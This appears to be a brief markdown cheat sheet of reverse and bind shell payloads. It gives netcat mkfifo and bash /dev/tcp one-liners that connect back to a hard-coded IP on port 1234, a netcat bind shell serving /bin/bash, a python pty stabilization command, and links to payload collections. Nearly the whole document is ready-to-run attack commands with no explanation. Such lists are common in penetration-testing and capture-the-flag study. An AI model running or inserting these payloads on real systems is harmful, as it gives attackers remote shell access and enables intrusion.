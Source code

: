 # Bind / Reverse Shell

### Reverse shell basic payloads
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.3.225 1234 >/tmp/f
bash -i >& /dev/tcp/10.11.3.225/1234 0>&1
```


### BIND SHELL :
***Remote***
```bash
nc -nlvp 51337 -e /bin/bash
```
***Local***
```bash
nc IP 51337
```


### Stabilize
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'; 
export TERM=xterm ; export SHELL=bash
```


# Resources

- https://www.revshells.com/  
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#php  

